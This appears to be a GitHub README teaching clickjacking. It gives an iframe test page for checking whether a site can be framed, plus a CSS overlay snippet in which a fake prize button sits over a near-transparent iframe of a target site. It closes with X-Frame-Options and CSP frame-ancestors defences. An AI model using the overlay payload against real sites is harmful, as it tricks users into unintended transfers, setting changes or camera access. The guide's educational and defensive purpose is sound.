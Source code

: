 # 🛡️ Clickjacking (Click Hijacking) – Full Guide

> ⚠️ **Funny Disclaimer**:
> This guide is for **educational purposes only**.
> If you try this on websites you don't own, expect a knock on your door — not from opportunity, but from law enforcement. 🕵️‍♂️💻🚔
> So test responsibly, or the only thing you’ll be hijacking is your own future. 😅

---

Clickjacking is a **web-based attack** where a user is tricked into clicking something **they didn’t intend to**, by overlaying or hiding malicious elements on top of legitimate ones using an `<iframe>`.

---

## 🧠 Simple Explanation

Imagine you think you're clicking a **"Play"** button, but actually you’re clicking a **“Transfer Money”** or **“Enable Webcam”** button hidden underneath — that’s clickjacking.

---

## 🎯 Goal of Clickjacking

To trick users into performing actions like:

* Liking a page
* Transferring money
* Changing account settings
* Enabling camera/mic access
* Clicking ads or confirming sensitive operations

---

## 🛠️ How It Works (Behind the Scenes)

1. Attacker embeds a **legitimate site** inside an invisible `<iframe>`.
2. Places **fake UI/buttons** above it using CSS.
3. Victim clicks on the fake UI, but their action is registered on the **hidden real site**.

---

## 🧪 Example Code (Test Page)

This basic HTML demonstrates a clickjacking vulnerability test:

```html
<html>
<head>
<title>Clickjack test page</title>
</head>
<body>
<p>Website is vulnerable to clickjacking!</p>
<iframe src="https://www.domain.com/" width="5000" height="1000"></iframe>
</body>
</html>
```

### ✅ How to Use:

1. Save the code as `clickjack.html`.
2. Replace `https://www.domain.com/` with the URL you want to test.
3. Open it in a browser.
4. If the site **loads inside the iframe**, it’s **likely vulnerable**.

---

## 🔐 Detecting Vulnerability

* **If the iframe loads** → site may be vulnerable.
* **If it doesn’t load** and shows:

  > "Refused to display in a frame because it set 'X-Frame-Options'..."

  → the site is **protected**.

---

## 🧙 Real Attack Simulation (CSS Overlay)

```html
<style>
iframe {
    position: absolute;
    top: 0;
    left: 0;
    opacity: 0.1;
    z-index: 2;
}
#fake-button {
    position: absolute;
    top: 50px;
    left: 100px;
    z-index: 3;
    background: red;
    color: white;
    padding: 10px;
    cursor: pointer;
}
</style>

<div id="fake-button">Click Here for a Prize!</div>
<iframe src="https://yourtarget.com/" width="800" height="600"></iframe>
```

This simulates a user clicking the visible red button but actually interacting with the site underneath.

---

## 🚫 How to Prevent Clickjacking (For Developers)

Use HTTP headers:

### 1. **X-Frame-Options** (Older but still useful)

```http
X-Frame-Options: DENY
```

or

```http
X-Frame-Options: SAMEORIGIN
```

### 2. **Content Security Policy** (Recommended)

```http
Content-Security-Policy: frame-ancestors 'none';
```

---

## 🛡️ How Users Can Stay Safe

* Keep browsers updated
* Use browser extensions like **NoScript**, **uBlock Origin**
* Don’t click suspicious buttons or pop-ups

---

## 🧯 Final Words

Clickjacking is clever, sneaky, and surprisingly simple — but with proper headers and cautious clicks, you can block the hijack before it happens.

---
